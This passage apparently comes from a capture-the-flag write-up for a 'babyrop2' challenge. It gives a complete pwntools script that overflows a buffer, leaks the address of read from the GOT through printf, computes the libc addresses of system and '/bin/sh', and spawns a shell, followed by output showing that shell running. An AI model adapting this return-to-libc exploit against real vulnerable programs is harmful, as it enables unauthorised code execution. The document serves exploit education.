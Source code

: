 Output:
```
0x7ffff7e2bc50
0x7ffff7f68519
```
## Final Step

Ok! Everything is set lets build the payload!
```python
from pwn import *
context.clear(arch='amd64')
elf = ELF('./babyrop2')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
main = elf.symbols['main']
read_got = elf.symbols['got.read']
format_string = next(elf.search('%s'))
system_offset = libc.symbols['read'] - libc.symbols['system']
sh_offset = libc.symbols['read'] - next(libc.search('/bin/sh'))
r = ROP(elf)
r.printf(format_string,read_got)
r.main()											# Run the main again to buffer overflow again
p = elf.process()
p.sendline('a'*40+str(r))
p.recvuntil("\n")
read_address = p.recvuntil("!\n")[:-2]
read_address = u64(read_address + "\x00\x00")
system_address = read_address - system_offset
sh_address = read_address - sh_offset
elf.symbols['system'] = system_address				# Set the system address
r = ROP(elf)
r.system(sh_address)								# system("/bin/sh")
p.sendline('a'*40+str(r))							# Send the payload again
p.interactive()
```
Output:
```bash
# python solve.py 
[*] '/root/Downloads/harekaze/rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded cached gadgets for './babyrop2'
[+] Starting local process '/root/Downloads/harekaze/rop2/babyrop2': pid 14595
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World again, aaaaaaaaaaaaaaaaaaaaaaaaaaaaA!
$ ls
babyrop2  core    libc.so.6  README.md  solve.py
```
Yay! Looks like we got it!!

